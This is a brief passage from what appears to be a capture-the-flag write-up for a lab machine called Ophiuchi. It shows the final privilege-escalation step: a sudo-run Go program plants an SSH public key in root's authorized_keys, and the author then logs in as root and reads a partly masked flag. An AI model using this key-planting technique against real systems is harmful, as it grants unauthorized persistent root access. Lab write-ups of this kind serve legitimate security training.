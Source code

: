 #### SSH Access

Now I’ll run it:

```

admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
[*] Adding public key to /root/.ssh/authorized_keys
[+] Done.

```

Now I can connect as root:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.227
...[snip]...
root@ophiuchi:~#

```

And grab the flag:

```

root@ophiuchi:~# cat root.txt
bdd26a85************************

```